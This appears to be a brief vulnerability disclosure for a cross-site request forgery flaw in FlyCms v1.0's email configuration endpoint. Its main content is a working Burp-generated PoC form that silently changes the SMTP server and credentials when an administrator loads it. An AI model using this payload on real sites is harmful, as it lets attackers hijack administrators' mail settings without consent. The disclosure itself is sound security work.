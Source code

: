 target:https://github.com/sunkaifei/FlyCms
version: v1.0

FlyCms v1.0 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /system/email/email_conf_updagte

![1](https://github.com/mafangqian/cms/assets/84766362/23f6eb6c-f75b-465d-af7d-e24e71ccb18f)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://192.168.247.192/system/email/email_conf_updagte" method="POST">
      <input type="hidden" name="fly_smtp_server" value="smtp&#46;qq&#46;com" />
      <input type="hidden" name="fly_smtp_usermail" value="�&#130;&#174;�&#174;&#177;�&#156;&#137;�&#136;&#183;�&#144;&#141;" />
      <input type="hidden" name="fly_smtp_password" value="�&#130;&#174;�&#187;&#182;�&#156;&#141;�&#138;&#161;�&#153;&#168;�&#175;&#134;�&#160;&#129;" />
      <input type="hidden" name="fly_smtp_port" value="465" />
      <input type="hidden" name="test_address" value="" />
      <input type="submit" value="Submit request" />a
    </form>
  </body>
</html>
```

![1](https://github.com/mafangqian/cms/assets/84766362/8a8592d8-b592-4989-bf74-6ecc48bd45f1)


Successed

![3](https://github.com/mafangqian/cms/assets/84766362/d8bc7fea-440f-4b7a-846b-e9a595177780)
